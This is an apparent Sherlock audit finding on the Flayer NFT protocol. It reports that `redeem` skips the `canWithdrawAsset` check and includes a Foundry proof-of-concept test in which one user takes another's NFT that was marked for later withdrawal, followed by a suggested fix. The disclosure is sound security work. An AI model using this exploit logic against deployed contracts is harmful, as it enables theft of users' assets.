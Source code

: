 Happy Wintergreen Kookaburra

High

# The `redeem` function does not check if the requested NFT is not a `canWithdrawAsset` NFT of someone else

## Summary
When a user redeems an NFT, they get to burn their tokens (1 ether) to claim a specified NFT (by them), the issue lies when the redeem function can allow the user with 1 ether to claim an NFT that is being put aside (withdraw Later) by someone who unlocked it as a Protected Listing.

## Vulnerability Detail
- The Redeem function is used by users to be able to redeem any NFT inside the collection in return for them getting to burn their tokens(ERC20) to do so which will be 1 ether of those tokens(ERC20).
- The Function already checks that the specified redeem NFT is not an Active Listing (Which is correct), but forgets to check if the specified redeem NFT is not an asset that can be withdrawn by another user as that user is planning to claim it later.

## Code Snippet
- When a user calls the `unlockProtectedListing` to release their NFT, they get to choose if they want their NFT instantly or if they want to withdraw later
- https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/ProtectedListings.sol#L287
```solidity
function unlockProtectedListing(address _collection, uint _tokenId, bool _withdraw) public lockerNotPaused {}
```
- If they have specified their `_withdraw` bool as false they will execute the `else` part of the function
- https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/ProtectedListings.sol#L317
```solidity
        if (_withdraw) { //n if the withdraw bool was set to true, execute
            locker.withdrawToken(_collection, _tokenId, msg.sender); //n Transfer the ERC721 back to the sender
            emit ListingAssetWithdraw(_collection, _tokenId);
        } else { //n if the withdraw bool was false it means it can be withdrawn later
            canWithdrawAsset[_collection][_tokenId] = msg.sender; //n store the msg.sender as a sender that can be able to withdraw the NFT later
        }
```
- They can withdraw later by using the `withdrawProtectedListing` function (But for now let's say the user decides to keep it there)
- https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/ProtectedListings.sol#L341
```solidity
function withdrawProtectedListing(address _collection, uint _tokenId) public lockerNotPaused {
        // Ensure that the asset has been marked as withdrawable
        address _owner = canWithdrawAsset[_collection][_tokenId]; //n fetches the owner of the address listing that can withdraw their ERC721
        if (_owner != msg.sender) revert CallerIsNotOwner(_owner); //n if the owner of the NFT is not the same as the sender revert

        // Mark the asset as withdrawn
        delete canWithdrawAsset[_collection][_tokenId]; //n deletes the mapping of the collection token (it is claimed)

        // Transfer the asset to the user
        locker.withdrawToken(_collection, _tokenId, msg.sender); //n Transfer the ERC721 back to the sender
        emit ListingAssetWithdraw(_collection, _tokenId);
    }
```
### Vulnerability
- The `redeem` function below does not check if the provided `_tokenIds` is allocated at `canWithdrawAsset` for the User to be able to withdraw it
```solidity
    function redeem(address _collection, uint[] calldata _tokenIds, address _recipient) public nonReentrant whenNotPaused collectionExists(_collection) {
        uint tokenIdsLength = _tokenIds.length;
        if (tokenIdsLength == 0) revert NoTokenIds();

        // Burn the ERC20 tokens from the caller
        ICollectionToken collectionToken_ = _collectionToken[_collection];
        collectionToken_.burnFrom(msg.sender, tokenIdsLength * 1 ether * 10 ** collectionToken_.denomination());

        // Define our collection token outside the loop
        IERC721 collection = IERC721(_collection);

        // Loop through the tokenIds and redeem them
        for (uint i; i < tokenIdsLength; ++i) {
            // Ensure that the token requested is not a listing
            if (isListing(_collection, _tokenIds[i])) revert TokenIsListing(_tokenIds[i]);

            // Transfer the collection token to the caller
            collection.transferFrom(address(this), _recipient, _tokenIds[i]);
        }

        emit TokenRedeem(_collection, _tokenIds, msg.sender, _recipient);
    }
```

## Impact
- This will cause a user that had a withdrawal asset to get the NFT taken away from him without even receiving those burned Tokens
- When a user tries to withdraw the NFT, they will be faced with a revert error saying the NFT does not exist as it would be sent to the other user (No longer in the hands of the Locker)
- The user who bought the NFT (redeem) from the initialized collection and Protected Listed the NFT then unlocks it and puts the NFT in a withdraw later state expects the NFT to not be swapped or redeemed by other users but rather than them fully owning it and can withdraw later as it was their protected Listing and they owned it by redeeming it from the collection.

## PoC
- Put the PoC inside the `ProtectedListings.t.sol`
<details>

<summary>POC</summary>

```solidity
    function test_Poc(uint _tokenId, uint96 _tokensTaken) public {
  // Ensure that we don't get a token ID conflict
  _assumeValidTokenId(_tokenId);

  // Ensure that the _tokenTaken is within the acceptable range
  vm.assume(_tokensTaken >= 0.1 ether);
  vm.assume(_tokensTaken <= 1 ether - protectedListings.KEEPER_REWARD());

  // set the user alice
  address payable alice = users[0];

  // Mint the NFT to alice
  erc721a.mint(alice, _tokenId);

  vm.startPrank(alice); // Create the listing (by Alice)
  erc721a.approve(address(protectedListings), _tokenId); // approve the NFT to be used by the contract
  _createProtectedListing({
    _listing: IProtectedListings.CreateListing({
    collection: address(erc721a),
    tokenIds: _tokenIdToArray(_tokenId),
    listing: IProtectedListings.ProtectedListing({
    owner: alice,
    tokenTaken: _tokensTaken,
    checkpoint: 0
  })
  })
  });

  // Approve the ERC20 token to be used by the listings contract
  locker.collectionToken(address(erc721a)).approve(address(protectedListings), _tokensTaken);
  // Confirm that the ERC20 is held by alice is the correct amount (TokenTaken)
  assertEq(locker.collectionToken(address(erc721a)).balanceOf(alice), _tokensTaken);
  // Unlocks the listing of alice with withdraw to false (withdraw later)
  protectedListings.unlockProtectedListing(address(erc721a), _tokenId, false);
  vm.stopPrank();

  // Confirm that the ERC20 was burned from alice as we unlocked our listing
  assertEq(locker.collectionToken(address(erc721a)).balanceOf(alice), 0);
  // Confirm that the NFT has not yet been returned to the original owner (withdraw later)
  assertEq(erc721a.ownerOf(_tokenId), address(locker));
  // Check that we can now withdraw the NFT from our caller (alice)
  assertEq(protectedListings.canWithdrawAsset(address(erc721a), _tokenId), alice);

  // Attack
  address payable bob = users[1]; // set the user bob (Attacker)
  // We need to generate enough ERC20 tokens to be able to redeem (1 ether)
  deal(address(locker.collectionToken(address(erc721a))), bob, 1 ether);

  // Move our token ID (Alice's) into an array
  uint[] memory tokenIds = new uint[](1);
  tokenIds[0] = _tokenId;

  vm.startPrank(bob); // Attempt to redeem Alice's NFT
  // Approval from bob for the locker to burn the collection tokens
  locker.collectionToken(address(erc721a)).approve(address(locker), 1 ether);
  // bob redeems the NFT that is owned by alice
  locker.redeem(address(erc721a), tokenIds);
  vm.stopPrank();
  // Attack End

  // Alice decides to claim their NFT as they wanted to withdraw later
  vm.prank(alice);
  // Expect the "Not Owner revert" from ERC721 indicating that the locker is no longer in possession of alice's NFT
  vm.expectRevert("ERC721: caller is not token owner or approved");
  protectedListings.withdrawProtectedListing(address(erc721a), _tokenId);
  // Confirm that the NFT is no longer owned by alice but by bob
  assertEq(erc721a.ownerOf(_tokenId), bob);
}
```
</details>

## Tool used
Manual Review

## Recommendation
- Implement a check that the requested NFT is the `canWithdrawAsset` of an address 0 and if not, revert
```diff
        for (uint i; i < tokenIdsLength; ++i) {
            // Ensure that the token requested is not a listing
            if (isListing(_collection, _tokenIds[i])) revert TokenIsListing(_tokenIds[i]);
+           if (IProtectedListings.canWithdrawAsset[_collection][_tokenIds[i]] != address(0)) revert TokenIsOwned(_tokenIds[i]);
```
- ⚠️**NOTICE**: Other Functions needs this check too like `swap`, `CollectionShutdown` and more
